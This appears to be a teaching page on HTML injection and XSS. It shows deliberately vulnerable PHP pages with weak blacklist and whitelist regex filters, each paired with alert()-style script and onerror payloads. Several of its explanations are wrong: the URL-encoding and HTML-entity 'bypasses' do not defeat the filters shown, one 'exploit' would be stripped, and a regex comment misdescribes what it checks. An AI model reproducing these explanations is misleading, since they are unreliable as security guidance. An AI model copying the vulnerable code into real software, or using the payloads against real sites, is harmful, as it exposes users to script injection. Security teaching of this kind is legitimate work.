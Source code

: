 
### 🔴 Blacklist-Based (GET Method)

**File:** `html-injection-black-list-get.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - GET</title>
</head>
<body>
    <h1>HTML Injection Blacklist - GET</h1>
    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']); // strips < and >
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

🧨 **Exploit:**

```html
http://example.com/html-injection-black-list-get.php?user=<h1>XSS</h1>
```

🛠️ **Bypass:**
Use encoded payload:

```
<script>alert('XSS')</script>  →  Encoded as: %3Cscript%3Ealert('XSS')%3C/script%3E
```

> Because `preg_replace` only removes `<` and `>`, other injection payloads using quotes, events, or tags like `img` may still sneak through.

---

### 🔴 Blacklist-Based (POST Method)

**File:** `html-injection-black-list-post.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Blacklist - POST</title>
</head>
<body>
    <h1>HTML Injection Blacklist - POST</h1>
    <form action="html-injection-black-list-post.php" method="POST">
        User Name: <input type="text" name="user"><br>
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = preg_replace("/<|>/", "", $_REQUEST['user']);
        echo "<h2>" . $user_name . "!!</h2>";
    }
    ?>
</body>
</html>
```

🧨 **Exploit:**

```
<h1>Hello!</h1> OR <img src=x onerror=alert('XSS')>
```

🛠️ **Bypass:**
Use alternative tag without `<` or `>` directly:

```html
&lt;img src=x onerror=alert(1)&gt;
```

---

### ⚠️ Whitelist Example – VULNERABLE

**File:** `html-injection-white-list.php`

```php
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <title>HTML Injection Whitelist</title>
</head>
<body>
    <h1>HTML Injection Whitelist</h1>
    <form action="html-injection-white-list.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="Login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];
        if (!preg_match('/[a-z\d_\-\.]/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            echo "<h2>" . $user_name . "!!</h2>";
        }
    }
    ?>
</body>
</html>
```

🧨 **Exploit:**

```html
<h1>Injected</h1>
```

> Passes because it contains allowed characters like `h`, `i`, `n`.

🛠️ **Bypass:**
Use partially allowed strings:

```html
a<script>alert(1)</script>  // starts with 'a' so it passes regex
```

---


### 🔥 `html-injection-white-list2.php` – **Fully Vulnerable**

```php
<!-- html-injection-white-list2.php -->
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 2</title>
</head>
<body>
    <h1>Html Injection White List - 2</h1>
    <form action="html-injection-white-list2.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // ❌ Weak Regex: Only checks if the first character is allowed
        if (preg_match('/[a-z\d_\.\-]/i', $user_name)) {
            // ❌ No sanitization: Direct output = full XSS risk
            echo '<h2>' . $user_name . '!</h2>';
        } else {
            die("Don't try to Inject Code");
        }
    }
    ?>
</body>
</html>
```

#### ✅ Example Exploit:

```txt
a<script>alert('XSS')</script>
```

---

### 🔐 `html-injection-white-list3.php` – **Improved But Still Dangerous**

```php
<!-- html-injection-white-list3.php -->
<!DOCTYPE html>
<html>
<head>
    <meta charset='utf-8'>
    <title>Html Injection White List - 3</title>
</head>
<body>
    <h1>Html Injection White List - 3</h1>
    <form action="html-injection-white-list3.php" method="POST">
        User Name: <input type="text" name="user"><br />
        <input type="submit" value="login">
    </form>

    <?php
    if (isset($_REQUEST['user'])) {
        $user_name = $_REQUEST['user'];

        // ✅ Stronger Regex: Only allows letters, digits, dot, dash, underscore
        if (!preg_match('/^[a-z\d\.\-\_]*$/i', $user_name)) {
            die("Don't try to Inject Code");
        } else {
            // ❌ Still vulnerable if validation logic ever changes
            echo "<h2>" . $user_name . "!</h2>";
        }
    }
    ?>
</body>
</html>
```

#### ✅ Safe Input:

```txt
admin_user-12
```

#### ❌ Unsafe Future Risk:

If someone edits the regex to allow `<`, they reintroduce XSS.

---

